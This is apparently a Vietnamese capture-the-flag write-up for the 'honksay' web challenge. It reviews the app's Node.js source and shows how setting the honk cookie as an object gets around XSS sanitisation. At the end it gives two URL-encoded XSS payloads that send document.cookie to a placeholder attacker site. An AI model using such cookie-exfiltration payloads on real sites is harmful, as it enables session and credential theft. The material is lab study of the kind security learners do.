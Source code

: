 # honksay
![Picture](https://user-images.githubusercontent.com/87886468/187146364-be5d4596-96fc-4bf2-bbcb-cd9107c532e5.png)
### Kiểm tra chức năng web
Bắt đầu challenge, ta thấy trang web chỉ có 1 chỗ để đưa input vào, tiến hành xem source code web thì không có thuộc tính nào là hidden,ta nhập các dữ liệu bất kì cũng như payload xss thì đều sẽ được redirect tới /report. Ta dùng burpsuite để bắt request ta sẽ thấy body request là url=<your_input> .Ta tiến hành kiểm tra cookie thì thấy có 2 cookie là honk và honkCount tiến hành chỉnh sửa thì ta thấy cookie từ honk sẽ được sanitize xss còn honkCount thì không.

### Đọc source code
goose.js
```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```
Ta sẽ hiểu hàm visit() sẽ nhận tham số là url, sau đấy sẽ tiến hành truy cập vào url nếu domain là localhost thì cookie flag sẽ được set. 
```javascript
page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
```
Đọc app.js

Ta thấy thêm 1 subdirectory là /changehonk và URL parameter là newhonk
```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```
Khi truy cập http://honksay.ctf.maplebacon.org/ thì sẽ tiến hành kiểm tra xem client đã có cookie hay chưa, nếu chưa sẽ set cookie mặc định cho client, còn nếu đã có sẽ tiến hành kiểm tra nếu cookie là object thì sẽ set finalhonk là cookie, nếu không phải object thì sẽ tiến hành santize xss cookie và set value cho message và amountoftimeshonked.
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
```
Ta đã thấy lỗ hỏng để ta có thể lấy flag 
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
```
Ta sẽ làm cho cookie honk thành object và gán 1 trong 2 key với value là payload XSS, khi được render XSS sẽ xảy ra.

http%3A%2F%2Flocalhost%3A9988%2Fchangehonk%3Fnewhonk%5Bmessage%5D%3D%3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

Hoặc
 
http%3A%2F%2Flocalhost%3A9988%2Fchangehonk%3Fnewhonk%5Bamountoftimeshonked%5D%3D%3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

#### Giải thích 
Hàm visit() sẽ truy cập vào url, nên ta sẽ cho truy cập vào localhost:9988 để flag cookie được set, khi ta truy cập vào /changehonk thì cookie honk  sẽ được set honk = req.query.newhonk, sau đấy sẽ redirect về /, sau khi redirect về /, sẽ tiến hành kiểm tra liệu cookie honk có phải là object, vì ta muốn bypass filter XSS nên ta sẽ cho cookie honk thành object, cookie honk sẽ được render và XSS sẽ xảy ra và gửi request tới server của ta với cookie. 
